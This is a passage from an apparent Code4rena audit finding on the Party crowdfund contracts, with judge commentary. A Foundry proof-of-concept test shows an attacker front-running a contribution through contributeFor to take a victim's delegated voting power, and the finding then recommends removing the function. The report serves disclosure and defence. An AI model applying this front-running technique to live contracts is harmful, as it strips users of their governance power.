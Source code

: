 ```js
        // Charlie contributes to the Crowdfund
        address charlie = _randomAddress();
        vm.deal(charlie, 10 ether);
        vm.prank(charlie);
        crowdfund.contribute{value: 5 ether }(address(charlie), "");

        address bob = _randomAddress();
        // Alice front runs Bob's contribution, setting herself as Bob's delegate
        address alice = _randomAddress();
        vm.deal(alice, 5 ether);
        vm.prank(alice);
        crowdfund.contributeFor{value: 1 }(0, payable(address(bob)), address(alice), "");

        // Bob contributes and finalizes the crowdfund, not knowing
        // that he just contributed all of his voting power to Alice
        vm.deal(bob, 15 ether);
        vm.prank(bob);
        crowdfund.contribute{value: 15 ether }(address(bob), "");

        // Here we can see that Alice has `15e18` voting power, even though she should have only `1 wei`
        assertEq(party.getVotingPowerAt(address(alice), uint40(block.timestamp)), 15 ether);
        // Even though Bob set himself as the delegate, he has 0 voting power, because his
        // delegation got overwritten
        assertEq(party.getVotingPowerAt(address(bob), uint40(block.timestamp)), 0);
    }
```

### Tools Used

Foundry

### Recommended Mitigation Steps

We recommend removing the `contributeFor` function.

**[KingNFT (lookout) commented](https://github.com/code-423n4/2023-10-party-findings/issues/418#issuecomment-1806878946):**
 > Please reference:

> ```solidity
> File: contracts\party\PartyGovernance.sol
> 451:     function delegateVotingPower(address delegate) external {
> 452:         _adjustVotingPower(msg.sender, 0, delegate);
> 453:     }
> ```

**[gzeon (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2023-10-party-findings/issues/418#issuecomment-1817881800):**
 > The warden described a potential grieving vector where an attacker (Alice) can temporarily steal the delegation from another user (Bob) who contributed for a user (User).
>
> The delegation power would be temporarily stolen at no cost until the User re-delegate.
